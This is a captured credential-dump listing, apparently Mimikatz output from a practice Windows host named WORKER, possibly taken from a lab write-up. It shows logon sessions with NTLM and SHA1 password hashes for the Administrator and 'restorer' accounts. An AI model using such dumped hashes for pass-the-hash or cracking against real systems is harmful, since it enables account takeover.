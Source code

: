```bash
Authentication Id : 0 ; 710847 (00000000:000ad8bf)
Session           : Interactive from 0
User Name         : Administrator
Domain            : WORKER
Logon Server      : WORKER
Logon Time        : 2020-09-04 08:32:56
SID               : S-1-5-21-3082756831-2119193761-3468718151-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : WORKER
         * NTLM     : c699db8a49441d1a9764bdfe3fcbd84f
         * SHA1     : 75d6eb5bfa5a2fb242cf10f4f4f6aca2c99d01c6
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : WORKER
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : WORKER
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 1831398 (00000000:001bf1e6)
Session           : Batch from 0
User Name         : restorer
Domain            : WORKER
Logon Server      : WORKER
Logon Time        : 2020-09-04 08:53:00
SID               : S-1-5-21-3082756831-2119193761-3468718151-1452
        msv :
         [00000003] Primary
         * Username : restorer
         * Domain   : WORKER
         * NTLM     : 399aa90d030a5f41bde1481fc6734ffb
         * SHA1     : 216c8e790fa90513e6bae2d6d04488791769390f
        tspkg :
        wdigest :
         * Username : restorer
         * Domain   : WORKER
         * Password : (null)
        kerberos :
         * Username : restorer
         * Domain   : WORKER
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2020-09-04 08:29:49
SID               : S-1-5-17
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
```